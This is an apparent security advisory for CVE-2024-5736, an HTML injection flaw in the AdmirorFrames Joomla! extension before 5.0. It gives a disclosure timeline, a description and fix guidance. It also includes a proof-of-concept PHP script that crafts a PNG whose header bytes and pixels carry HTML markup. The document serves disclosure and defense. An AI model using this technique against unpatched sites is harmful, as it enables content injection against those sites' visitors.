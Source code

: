 # CVE-2024-5736
AdmirorFrames Joomla! Extension < 5.0 - HTML Injection

## Timeline
- Vulnerability reported to vendor: 26.01.2024
- New fixed 5.0 version released: 06.06.2024
- Public disclosure: 28.06.2024

## Description

HTML Injection in AdmirorFrames Joomla! Extension in `afGdStream.php` file which doesn't set up `Content-Type` header value before sending image data. This causes PHP to send default value of this header (`text/html`) and causes image data to be interptreted as HTML documente.  

Example PHP script that generates PNG with width and height fields set to `<s>` HTML tag:
```
<?php
$_payload="AAA";
if(strlen($_payload)%3!=0){
 echo "payload%3==0 !\n"; exit();
}
$_pay_len=strlen($_payload);
echo "LEN: $_pay_len\n";
$width=0x733e; //<s>
$height=0x3c;
$im = imagecreate($width, $height);

$_hex=unpack('H*',$_payload);
$_chunks=str_split($_hex[1], 6);

for($i=0; $i < count($_chunks); $i++){

  $_color_chunks=str_split($_chunks[$i], 2);
  $color=imagecolorallocate($im,hexdec($_color_chunks[0]),hexdec($_color_chunks[1]),hexdec($_color_chunks[2]));

  imagesetpixel($im,$i,1,$color);

}

imagepng($im,"example.png");
```

Result of rendering `example.png` proof of concept file by web browser:
![proof of concept]poc_html_injection_with_s_tag_injected.png()

This issue was caused by usage of default value of `Content-Type` header. This problem has been fixed in AdmirorFrames Joomla! Extension at version 5.0.

## Affected versions
< 5.0 

## Advisory
Update AdmirorFrames Joomla! Extension to version 5.0 or newer.

### References
* https://github.com/vasiljevski/admirorframes/issues/3
* https://cert.pl/en/posts/2024/06/CVE-2024-5735/
* https://cert.pl/posts/2024/06/CVE-2024-5735/
* https://nvd.nist.gov/vuln/detail/CVE-2024-5736
